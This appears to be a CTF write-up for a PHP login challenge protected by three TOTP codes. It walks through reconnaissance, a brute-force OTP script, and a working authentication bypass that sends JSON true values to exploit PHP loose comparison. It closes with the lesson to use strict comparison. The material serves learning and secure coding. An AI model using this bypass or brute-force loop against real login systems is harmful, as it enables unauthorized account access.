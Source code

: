* Name: Wai Han
* Challenge Two

---

# Exploration

```
otp/
 ├─ Dockerfile
 ├─ src/
 │   ├─ index.php          ← Login page
 │   ├─ login.php          ← Auth logic (returns flag)
 │   ├─ google2fa.php      ← TOTP library
 │   └─ jsonhandler.php    ← Helper for JSON I/O
 └─ docker-compose.yml
```

docker: 
* base :php:8.1.12-apache-bullseye
* service: otp
* port 8901:80

Flag's given in the dockerfile? `hkcert22{mistakes-off-the-page}`

---

**A brief explanation of the php files as I have no experience with php.**

1. `index.php:`
Presents a login form with fields for username, password, and three OTP fields (otp1, otp2, otp3).  Submits a JSON POST request to /login.php with the form data. Displays success or error messages based on the server’s response.

2. `login.php`:
Handles login requests via JSON input ($DATA).  Contains a hardcoded user database ($USER_DB) with one user: Username: admin Password hash: password_hash("admin", PASSWORD_DEFAULT) Three TOTP secret keys: key1, key2, key3 (generated dynamically using Google2FA::generate_secret_key()).  Validates: Username existence.  Password using password_verify.  Three OTPs using Google2FA::verify_key.  Returns the flag (from $_ENV['FLAG'] or a fake flag) if all checks pass.

3. `google2fa.php`:
Implements TOTP authentication based on the Google Authenticator algorithm.  Key functions: generate_secret_key: Creates a 16-character Base32 secret key.  get_timestamp: Returns the current Unix timestamp divided by 30 (TOTP interval).  base32_decode: Decodes a Base32 string to binary.  oath_hotp: Generates a 6-digit OTP from a binary key and timestamp.  verify_key: Checks if a provided OTP matches the expected OTP for a secret key, allowing a window of ±4 time steps.  oath_truncate: Extracts a 6-digit OTP from an HMAC-SHA1 hash.

4. `jsonhandler.php`:
Utility functions to parse JSON input and send JSON responses with error or success messages.  main.css: Styles the login form for a clean, centered UI.

---- 


## Action Plan

1. First start with common file paths for CTF. 
```
http://localhost:8901/flag
http://localhost:8901/flag.txt
http://localhost:8901/env
http://localhost:8901/info.php
http://localhost:8901/.env
```
Found no vulnerability. Either get 404 or 403.

2. Try the known credentials with arbitrary OTPs:
```
curl -X POST http://localhost:8901/login.php \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":"admin","otp1":"000000","otp2":"000000","otp3":"000000"}'
```
Response: {"error":{"code":500,"message":"wrong otp1","data":"otp1"}}%  

3. Try different combinations of OTP including:
* empty OTP, omit OTP (just username and login), `null` as OTP

4. Maybe Brute Force OTP? But Most likely impossible since the keys seem to regenerate per request.

```python3
import requests
import json

url = "http://localhost:8901/login.php"
headers = {"Content-Type": "application/json"}
payload = {
    "username": "admin",
    "password": "admin",
    "otp1": "000000",
    "otp2": "000000",
    "otp3": "000000"
}

# Test a range of OTPs (e.g., 000000 to 999999)
for i in range(1000000):
    otp = f"{i:06d}"  # Pad to 6 digits
    payload["otp1"] = otp
    payload["otp2"] = otp
    payload["otp3"] = otp
    response = requests.post(url, headers=headers, data=json.dumps(payload))
    if "Congrats" in response.text:
        print("Success:", response.text)
        break
    else:
        print(f"Tried OTP {otp}: {response.text}")
```

5. Try Input Manipulation. (The json_decode function or Google2FA::verify_key might mishandle unexpected input types)

6. Check docker compose log for misconfiguration that can expose environmental variable (FLAG). 

7. Input Manipulation again...

**This is the command that found the solution.**
```
curl -s -X POST http://localhost:8901/login.php \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":"admin","otp1":true,"otp2":null,"otp3":[]}'
```

The response I got was: `{"error":{"code":500,"message":"wrong otp2","data":"otp2"}}%`, which basically means that the first opt got passed the verification.

8. The issue seems to lie in the function `verify_key`

``` php
public static function verify_key($b32seed, $key, $window = 4, $useTimeStamp = true) {
    $timeStamp = self::get_timestamp();
    if ($useTimeStamp !== true) $timeStamp = (int)$useTimeStamp;
    $binarySeed = self::base32_decode($b32seed);

    for ($ts = $timeStamp - $window; $ts <= $timeStamp + $window; $ts++)
        if (self::oath_hotp($binarySeed, $ts) == $key)   // Loose Comparison
            return true;
    return false;
}
```

## Takeaway
```php
// in php language
"123456" == true   // → true
// should use === to disable type juggling ? 
```

## Exploit / Solution
```
curl -X POST http://localhost:8901/login.php -H "Content-Type: application/json" -d '{"username":"admin","password":"admin","otp1":true,"otp2":true,"otp3":true}' > response.txt && cat response.txt
```

The Flag is in the `response.txt` file.

## Flag
```
hkcert22{mistakes-off-the-page}
```

## Lessons Learned
* Make sure not to use loose comparison for checking secrets.
